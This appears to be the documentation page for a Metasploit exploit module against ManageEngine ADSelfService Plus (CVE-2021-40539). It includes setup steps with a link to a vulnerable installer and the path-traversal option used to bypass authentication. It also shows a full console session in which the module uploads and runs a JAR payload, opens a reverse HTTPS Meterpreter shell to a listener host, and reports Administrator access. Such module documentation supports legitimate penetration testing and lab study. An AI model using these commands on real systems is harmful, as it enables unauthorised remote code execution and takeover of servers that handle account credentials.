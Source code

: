 ## Vulnerable Application

### Setup

Follow the [Getting Started] guide. You do not need AD, and you can skip licensing.

1. Download [ManageEngine_ADSelfService_Plus_64bit.exe]
1. Run the installer
1. Start the server
1. Hax

[Getting Started]: https://www.manageengine.com/products/self-service-password/help/admin-guide/gettingstarted/getting-started.html
[ManageEngine_ADSelfService_Plus_64bit.exe]: https://archives2.manageengine.com/self-service-password/6113/ManageEngine_ADSelfService_Plus_64bit.exe

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

### `TARGETURI`

Path traversal for auth bypass. `/./` is the default.

## Scenarios

### ADSelfService Plus 6113 on Windows Server 2016

```
msf6 > use exploit/windows/http/manageengine_adselfservice_plus_cve_2021_40539
[*] Using configured payload java/meterpreter/reverse_https
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2021_40539) > options

Module options (exploit/windows/http/manageengine_adselfservice_plus_cve_2021_40539):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      8888             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /./              yes       Path traversal for auth bypass
   VHOST                       no        HTTP server virtual host


Payload options (java/meterpreter/reverse_https):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The local listener hostname
   LPORT  8443             yes       The local listener port
   LURI                    no        The HTTP Path


Exploit target:

   Id  Name
   --  ----
   0   Java Dropper


msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2021_40539) > set rhosts 172.16.57.10
rhosts => 172.16.57.10
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2021_40539) > set lhost 172.16.57.1
lhost => 172.16.57.1
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2021_40539) > run

[*] Started HTTPS reverse handler on https://172.16.57.1:8443
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Successfully bypassed REST API authentication.
[*] Uploading payload JAR: P2dP5Ric88T.jar
[+] Successfully uploaded payload JAR
[*] Executing payload JAR
[*] https://172.16.57.1:8443 handling request from 172.16.57.10; (UUID: tyuzturs) Staging java payload (58615 bytes) ...
[+] Successfully executed payload JAR
[+] Deleted P2dP5Ric88T.jar
[*] Meterpreter session 1 opened (172.16.57.1:8443 -> 127.0.0.1 ) at 2021-11-15 18:08:25 -0600

meterpreter > getuid
Server username: Administrator
meterpreter > sysinfo
Computer    : WIN-9MFFR3JM534
OS          : Windows Server 2016 10.0 (amd64)
Meterpreter : java/windows
meterpreter >
```

